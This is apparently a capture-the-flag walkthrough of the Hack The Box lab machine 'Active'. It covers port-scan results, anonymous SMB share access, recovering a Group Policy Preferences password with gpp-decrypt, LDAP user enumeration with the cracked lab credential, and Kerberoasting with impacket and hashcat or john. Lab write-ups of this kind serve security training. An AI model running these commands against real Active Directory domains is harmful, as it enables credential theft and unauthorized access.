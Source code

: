 # Active

### Reconnaissance

- 53/tcp domain Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
- 88/tcp kerberos sec  Microsoft Windows Kerberos (server time: 2023-08-08 15:00:19Z)
- 135/tcp msrpc Microsoft Windows RPC
- 139/tcp netbios ssn   Microsoft Windows netbios-ssn
- 389/tcp ldap Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site Name)
- 445/tcp microsoft-ds?
- 464/tcp  kpasswd5?
- 593/tcp ncacn_http Microsoft Windows RPC over HTTP 1.0
- 636/tcp tcpwrapped 
- 3268/tcp ldap Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site Name)
- 3269/tcp tcpwrapped 
- 5722/tcp msrpc Microsoft Windows RPC
- 9389/tcp mc-nmf .NET Message Framing
- 47001/tcp http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
- 49152/tcp msrpc Microsoft Windows RPC
- 49153/tcp msrpc Microsoft Windows RPC
- 49154/tcp msrpc Microsoft Windows RPC
- 49155/tcp msrpc Microsoft Windows RPC
- 49157/tcp ncacn_http Microsoft Windows RPC over HTTP 1.0
- 49158/tcp msrpc Microsoft Windows RPC
- 49165/tcp msrpc Microsoft Windows RPC
- 49168/tcp msrpc Microsoft Windows RPC
- 49169/tcp msrpc Microsoft Windows RPC

Results `smbclient -L ////10.10.10.100`

```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
Replication     Disk      
SYSVOL          Disk      Logon server share 
Users           Disk     
```

Replication can be accessed without credentials and downloaded

`smbget -R smb://active.htb/Replication` 

Groups.xml file in the share contains creds with a password crackable by `gpp-decrypt`

Connect to Users share

`smbclient -W active.htb -U SVC_TGS //active.htb`

The user.txt is on the SVC_TGS user's Desktop

Enumerate accounts on the target through LDAP

`ldapsearch -x -b "dc=active,dc=htb" -H ldap://10.10.10.100 -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))" samaccountname | grep sAMAccountName`

Base ldapsearch command returns the AD UserAccountControl attributes of accounts

`ldapsearch -x -b "dc=active,dc=htb" -H ldap://10.10.10.100 -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18`

-s sub filter

`-s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))"`

Thiss allows filtering of the returned accounts. Here we only want objects of the person category, user Class,
and those [that aren't disabled](https://learn.microsoft.com/en-GB/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties)

Impacket's GetADUsers simplifies the user enumeration process

`impacket-GetADUsers -all active/svc_tgs -dc-ip 10.10.10.100`

### Exploitation

Kerberoasting

ldapsearch to get the SPN's of active user accounts

`ldapsearch -x -b "dc=active,dc=htb" -H ldap://10.10.10.100 -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))" serviceprincipalname | grep servicePrincipalName -B 1`

Impacket's GetUserSPNs can also request the TGS for the attack

`impacket-GetUserSPNs active.htb/svc_tgs -dc-ip 10.10.10.100 -request`

Crack the hash with john or hashcat

`hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt`

`john --format:krb5tgs hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`
